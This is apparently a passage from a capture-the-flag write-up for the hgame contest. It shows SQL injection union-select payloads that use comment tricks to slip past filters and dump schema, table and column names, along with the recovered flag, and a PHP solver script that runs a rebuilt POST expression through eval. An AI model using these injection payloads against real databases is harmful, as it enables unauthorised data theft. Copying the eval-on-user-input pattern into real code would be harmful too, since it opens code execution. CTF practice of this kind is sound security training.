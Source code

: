 ```
0'/**/union/**/select/**/group_concat(schema_name)/**/FROM/**/information_schema.schemata#
information_schema,easysql
0'/**/union/**/select/**/GROUP_CONCAT(table_name)/**/FROM/**/information_schema.tables/**/WHERE/**/TABLE_SCHEMA=database();#
f1aggggggggggggg,messages#
GROUP_CONCAT(column_name)/**/FROM/**/information_schema.columns/**/WHERE/**/table_name/**/=/**/'f1aggggggggggggg'
fl4444444g

hgame{w0w_sql_InjeCti0n_Is_S0_IntereSting!!}
```



###  Cosmos的新语言

php

```php
<?php

// function encrypt($str){
//     $result = '';
//     for($i = 0; $i < strlen($str); $i++){
//         $result .= chr(ord($str[$i]) + 1);
//     }
//     return $result;
// }
function encrypt($str)
{
    $result = '';
    for($i = 0; $i < strlen($str); $i++){
        $result .= chr(ord($str[$i]) - 1);
    }
    return $result;
}
$newcmd='$_POST[\'token\']';
$cmd=substr($_POST['cmd'],0,strlen($_POST['cmd'])-1);
preg_match("/^.*\(/U",$cmd,$arr);
$cmd=substr($cmd,strlen($arr[0]),strlen($cmd)-strlen($arr[0])-1);

while($cmd!=='$_SERVER[\'token\']')
{
    $arr=array();
    preg_match("/^.*\(/U",$cmd,$arr);
    $newcmd=$arr[0].$newcmd.")";    
    $cmd=substr($cmd,strlen($arr[0]),strlen($cmd)-strlen($arr[0])-1);

}

$cmd=(str_replace("base64_encode","base64_decode",$newcmd));    


$dec=eval("echo ".$cmd.";");
?>
```

